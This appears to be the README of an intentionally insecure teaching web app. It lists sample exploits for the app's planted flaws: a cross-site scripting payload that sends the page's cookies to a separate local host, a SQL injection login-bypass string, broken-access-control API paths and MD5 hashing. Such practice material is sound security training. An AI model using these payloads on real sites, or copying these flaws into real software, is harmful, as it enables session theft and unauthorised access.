 # DontDoThis

Simple web application with a bunch of serious security flaws.

It is intended as a teaching tool for security.

## Getting started

Run `npm ci` to install dependencies.

Run `npm start` for a dev server. Navigate to http://localhost:4200/.

Reset the database with `npm run sync`.


## Vulnerabilities

- About us form - script injection
    - <script>alert("Exploited")</script>
    - <script>fetch(`http://localhost:8000/${document.cookie}`)</script>
- Login form - SQL injection
    - " or id = 1 and "" = "
- Info page - Broken access control
    - GET /api/company/2
- User endpoint - Broken access control / forced browsing
    - http://localhost:4200/api/user/2
- Cryptographic Failures -> MD5 hashing